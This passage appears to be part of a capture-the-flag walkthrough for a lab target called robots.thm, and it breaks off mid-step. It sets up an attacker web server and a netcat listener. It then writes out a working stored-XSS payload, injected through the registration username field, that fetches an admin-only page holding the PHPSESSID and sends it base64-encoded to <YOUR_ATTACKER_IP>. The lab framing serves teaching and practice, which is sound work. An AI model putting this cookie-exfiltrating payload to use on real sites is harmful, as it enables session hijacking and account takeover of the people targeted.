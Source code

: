         ```bash

        mkdir ~/robots_payloads && cd ~/robots_payloads

        ```

    * **Step 1.2: Start the Python Web Server:** From within `~/robots_payloads/`.

        ```bash

        python3 -m http.server 80

        ```

        * **Reasoning:** This simple command makes all files in the current directory accessible via HTTP from your `<YOUR_ATTACKER_IP>`. Port 80 is standard for web traffic.

    * **Step 1.3: Start Netcat Listener for XSS Data:** Open a **new terminal tab/window**.

        ```bash

        nc -lvnp 9001

        ```


2.  **Create `xss.js` (XSS Payload):**

    * **Action:** Create `xss.js` in your `~/robots_payloads/` directory.

    * **Code for `xss.js`:**

        ```javascript

        fetch('[http://robots.thm/server_info.php](http://robots.thm/server_info.php)') // Request the page containing the cookie

          .then(response => response.text())      // Get response body as text

          .then(data => {

            var base64data = btoa(data);           // Base64 encode the content

            // Send the encoded content to our Netcat listener

            fetch('http://<YOUR_ATTACKER_IP>:9001/?data=' + base64data);

          });

        ```

    * **Reasoning:** When executed in the admin's browser, this script fetches `server_info.php` (which contains the `PHPSESSID`), Base64-encodes its entire content, and then sends that encoded string to our `nc` listener.


3.  **Inject XSS Payload via Registration:**

    * **Action:** On `http://robots.thm/register`, input the XSS payload in the "Username" field.

    * **Payload:**

        ```html

        <script src="http://<YOUR_ATTACKER_IP>/xss.js"></script>
